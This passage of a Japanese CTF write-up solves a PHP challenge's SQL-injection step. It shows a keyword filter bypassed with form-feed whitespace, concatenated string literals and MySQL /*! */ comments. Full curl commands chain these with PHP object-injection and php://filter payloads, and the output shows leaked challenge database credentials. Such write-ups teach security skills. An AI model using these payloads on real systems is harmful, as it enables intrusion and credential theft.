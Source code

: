 `$one = "SELECT secret FROM top_secrets WHERE secret='{$_GET["seventh"]}'";` と `$two = "SELECT secret FROM top_secrets /*{$_GET["seventh"]}*/";` の 2 つの SQL 文で同時に SQLi をし、それぞれ `r1cks` と `th3sm4rt3s7` を (いずれも DB に存在していないので `UNION` を使って) 返すようにすればよいようです。

まず `/\.|_|%|regexp|like|\x09| |\x0d|\x0a|\x0b|\/|\*|x|0|r1cks|\(|\)/i` というフィルターの回避について考えていきましょう。

MySQL で空白文字として扱われるものは全てフィルターされている…かと思いきや、Python の `string.whitespace` とにらめっこしてみると `\x0c` (改ページ) が抜けていることがわかります。

#### `$one`
`r1cks` がフィルターされているので `r1cks` を使わずに `r1cks` という文字列を作る必要が出てきますが、これは MySQL の[文字列リテラルを隣り合わせると結合することができる](https://dev.mysql.com/doc/refman/5.6/ja/string-literals.html)という仕様を使えばできます。

```
mysql> select "r1"'cks';
+-------+
| r1    |
+-------+
| r1cks |
+-------+
1 row in set (0.00 sec)
```

これらを組み合わせて、`'UNION%0cSELECT%0c"r1"'cks` で `$one` の実行時に `r1cks` を返すようにすることができました。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}&sixth=php://filter/resource=ricksecret/db.php&sixth.second=R1cKs_Ung3s5b4L3_P45sw0Rd&seventh='"'UNION%0cSELECT%0c\"r1\"'cks" -d 'fifth=////////sbin/zramctl'
<?php
$host = "127.0.0.1";
$username = "Rick";
$password = "R1cKs_Ung3s5b4L3_P45sw0Rd";
$db_name = "rick_secrets";
?>
<br />Oh not again Morty.
```

#### `$two`
`$two` ではコメント中にユーザ入力が展開されるため、なんとかしてコメントから抜け出す必要があります。`*` と `/` はフィルターされているため他の方法を考える必要がありますが、どうすればよいでしょうか。

実は MySQL では `/*! MySQL-specific code */` のように [`/*!` と `*/` で囲むと一定のバージョン以上でのみコメント中の構文を実行させる](https://dev.mysql.com/doc/refman/5.6/ja/comments.html)ことができます。

これでコメントからの抜け出しは問題ありませんが、`$one` と両立するようなペイロードはどのようにして書けばよいのでしょうか。`$one` では文字列中に、`$two` ではコメント中にユーザ入力が展開されるという差異をなんとかする必要があり、大変めんどくさそうです。

私にはわからず、悩んでいるうちに ptr-yudai さんが以下のようなペイロードを作り上げました。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}&sixth=php://filter/resource=ricksecret/db.php&sixth.second=R1cKs_Ung3s5b4L3_P45sw0Rd&seventh=!WHERE%0csecret=""UNION%0cSELECT"th3sm4rt3s7"UNION%0cSELECT'"'UNION%0cSELECT\"r1\"''\"cks\"'" -d 'fifth=////////sbin/zramctl'
<?php
$host = "127.0.0.1";
$username = "Rick";
$password = "R1cKs_Ung3s5b4L3_P45sw0Rd";
$db_name = "rick_secrets";
?>
<br />Where would you find cookies Morty?
```
